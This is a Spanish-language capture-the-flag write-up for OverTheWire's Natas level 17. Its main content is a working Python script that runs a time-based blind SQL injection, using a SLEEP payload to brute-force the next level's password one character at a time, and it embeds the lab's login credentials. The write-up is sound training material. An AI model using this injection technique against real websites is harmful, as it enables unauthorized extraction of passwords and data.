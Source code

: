 Este nivel es de tipo **inyección SQL ciega basada en tiempo**, como se puede deducir del código fuente. Por lo tanto, intentemos realizar un ataque de fuerza bruta en este nivel, similar a los otros niveles de SQL. A continuación, se presenta el script guardado como archivo `.py` para llevar a cabo el ataque de fuerza bruta en la terminal usando Python.

```python
import requests
import re
from time import *

# Caracteres posibles para la contraseña
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

# Credenciales de acceso
username = "natas17"
password = "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"

# URL del objetivo
Url = "http://natas17.natas.labs.overthewire.org"

# Crear una sesión de requests
session = requests.session()

# Lista para almacenar la contraseña encontrada
current_password = list()

while True:
    for character in characters:
        # Imprimir el progreso actual
        print("Trying with: " + "".join(current_password) + character)
        
        # Medir el tiempo de respuesta
        startTime = time()
        
        # Realizar la solicitud POST con inyección SQL
        response = session.post(
            Url, 
            data={"username": 'natas18" AND password LIKE BINARY "' + "".join(current_password) + character + '%" AND SLEEP(2) #'},
            auth=(username, password)
        )
        
        # Calcular el tiempo transcurrido
        endTime = time()
        
        # Si el tiempo transcurrido es mayor a 2 segundos, el carácter es correcto
        if endTime - startTime > 2:
            current_password.append(character)
            break
    
    # Salir del bucle si la contraseña tiene 32 caracteres
    if len(current_password) == 32:
        break

# Imprimir la contraseña encontrada
print("Password found: " + "".join(current_password))
```
